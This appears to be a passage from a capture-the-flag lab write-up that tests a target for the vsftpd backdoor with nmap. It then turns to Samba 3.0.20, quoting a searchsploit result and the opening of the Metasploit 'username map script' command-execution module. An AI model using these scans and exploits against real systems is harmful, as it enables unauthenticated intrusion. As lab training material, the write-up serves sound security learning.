 Execute the script on port 21 of the target machine.

`nmap --script "ftp-vsftpd-backdoor" -p21 10.129.115.59`

```command
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 14:11 +03
Nmap scan report for 10.129.115.59
Host is up (0.71s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 22.79 seconds
```
The script output shows that we’re not vulnerable to this vulnerability. Let’s move on to our second point of entry.

---

### Port 139 and 445 Samba 3.X - 4.X & 3.0.20-Debian

A quick *searchsploit* tool shows us that this version many is famously vulnerable
there are a lot of versions that are vulnerable. I chose this version 

|Exploit Title|Path|
|---|---|
|Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) |unix/remote/16320.rb|

**Name**
Samba "username map script" Command Execution

**Description**
This module exploits a command execution vulerability in Samba versions 3.0.20 through 3.0.25rc3 
when using the non-default "username map script" configuration option. By specifying a username
containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

```rb
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking

	include Msf::Exploit::Remote::SMB

	# For our customized version of session_setup_ntlmv1
	CONST = Rex::Proto::SMB::Constants
	CRYPT = Rex::Proto::SMB::Crypt

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Samba "username map script" Command Execution',
			'Description'    => %q{
					This module exploits a command execution vulerability in Samba
				versions 3.0.20 through 3.0.25rc3 when using the non-default
```
